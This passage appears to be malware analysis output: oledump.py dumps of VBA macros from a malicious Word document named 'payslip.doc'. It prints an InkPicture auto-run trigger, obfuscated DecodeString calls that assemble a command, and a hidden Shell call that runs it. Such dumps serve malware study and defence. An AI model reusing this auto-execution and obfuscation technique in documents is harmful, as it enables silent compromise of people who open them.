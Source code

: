 ```
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Attribute VB_Control = "InkPicture1, 0, 0, MSINKAUTLib, InkPicture"
Private Sub InkPicture1_Painted(ByVal hDC As Long, ByVal Rect As MSINKAUTLib.IInkRectangle)
UserForm1.TextBox3 = "1"
End Sub

$ python oledump.py payslip.doc -v -s 15
Attribute VB_Name = "UserForm1"
Attribute VB_Base = "0{B9A614E0-84B0-4774-992D-D7B0D0F29FE8}{412FD4FB-ADE7-47DB-91F6-BBC5A89FC56F}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = False

Private Sub TextBox2_Change()
Shell UserForm1.TextBox2, 0
End Sub

Private Sub TextBox3_Change()
name1 = gnkruhl()
name2 = gnkruhl()
name3 = gnkruhl()
name4 = gnkruhl()
dec1 = DecodeString("/)kt[/tgfuiojxibbt]$gfuiojxibbt]]ls(/pdf(t")
dec2 = DecodeString("{.jpod(z,t\")
dec3 = DecodeString("};{(iu f'ci/ptjajpi)%(ip%ui'/bdi(p}%kfu(bfhkldbi{\")
dec4 = DecodeString("_$$qp)gq|")
dec5 = DecodeString("%imi$$}:jphop gof/ijjt$$qp)gq|")
dec6 = DecodeString("%imi$$:-poa;")
dec7 = DecodeString("{$$xppgr[[jh'hohjfso/d(z%/f)[)f%'d($$}-/hp/x;")
dec8 = DecodeString("{$$xppgr[[hasxhj%/f%d([)f%'d($$}-$]]tetfsp ldbit i(/fkd(zthj/ddt ldbighpxtqp)gq|")
dec9 = DecodeString("%'hp:tjphop gof/ijjt$qp)gq|")
dec10 = DecodeString("%'hp$t ud(kfujpabitxdkki(]")
text = ""
test2 text, dec1, name1
test2 text, dec2, name2
test2 text, dec3, name2
test2 text, dec4, name3
test2 text, dec5, name3
test2 text, dec6, name1
test2 text, dec7, name1
test2 text, dec8, name4
test2 text, dec9, name4
test2 text, dec10, ""
UserForm1.TextBox2 = text
End Sub
```
